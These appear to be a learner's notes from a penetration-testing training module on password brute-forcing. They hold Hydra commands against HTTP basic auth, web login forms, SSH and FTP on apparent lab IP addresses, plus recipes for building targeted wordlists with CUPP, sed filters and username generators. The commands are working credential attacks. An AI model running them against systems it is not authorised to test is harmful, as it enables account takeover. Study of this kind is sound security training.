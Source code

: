 # Basic HTTP Auth Brute Forcing
## Username/Password Attack
```
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f <IP> -s <p> http-get /
```
-u flag tries all users on each password
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.58.173 -s 44825 http-get /
```
## Username Brute Force
```
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```
# Web Forms Brute Forcing
## Hydra Modules
### Admin Panel
- Default Credentials
- Password Spraying: reusing already found, guessed, or decrypted passwords across multiple accounts. Since we have been redirected to this admin panel, the same user may have access here.
### Brute Forcing Forms
```
http[s]-{head|get|post}
```
basic HTTP authentication
```
http[s]-post-form
```
used for login forms, like .php or .aspx and others.
we have to determine whether the web application uses GET or a POST form. We can test it by trying to log in and pay attention to the URL. If we recognize that any of our input was pasted into the URL, the web application uses a GET form. Otherwise, it uses a POST form
#### we need to provide three parameters
1- URL Path
2- POST Parameters
3- A failed/success login string
we have to specify a unique string from the source code of the page we're using to log in. Hydra will examine the HTML code of the response page it gets after each attempt, looking for the string we provided.
```
Fail: F=html_content
```
pick something from the HTML source of the login page. We can click [Ctrl + U] in Firefox to show the HTML page source, and search for login
```
Success: S=html_content
```
```
"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'”
```
## Determine Login Parameters
### Using Browser
Once we have the request, we can simply right-click on one of them, and select Copy > Copy POST data
```
username=test&password=test
```
```
Copy > Copy as cURL
```
```
curl 'http://178.128.40.63:31554/login.php' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.40.63:31554' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://178.128.40.63:31554/login.php' -H 'Cookie: PHPSESSID=8iafr4t6c3s2nhkaj63df43v05' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' --data-raw 'username=test&password=test'
```
### Using Burp Suite
## Login Form Attacks
### Default Credentials
```
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'”
```
### Password Wordlist
Often usernames such as admin, administrator, wpadmin, root, adm, and similar are used in administration panels and are rarely changed
```
hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'”
```
# Service Authentication Attacks
## Personalized Wordlists
### CUPP
```
sudo apt install cupp
```
```
cupp -i
```
### Password Policy
- 8 characters or longer
- contains special characters
- contains numbers
- we can remove any passwords that do not meet these conditions from our wordlist
```
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
```
```
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
```
```
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```
### Mangling
```
https://github.com/digininja/RSMangler
```
### Custom Username Wordlist
#### Username Anarchy
```
https://github.com/urbanadventurer/username-anarchy
```
```
./username-anarchy Bill Gates > bill.txt
```
## Service Authentication Brute Forcing
### SSH Attack
```
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```
### FTP Brute Forcing
Once we are in, we can check out what other users are on the system:
```
ls /home
```
We notice another user, m.gates. We also notice in our local recon that port 21 is open locally, indicating that an FTP must be available:
```
netstat -antp | grep -i list
```
we can try brute forcing the FTP login for the m.gates user
```
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```
We can now attempt to FTP as that user, or even switch to that user
```
ftp 127.0.0.1
```
input username m.gates and password discovered previously
# medusa
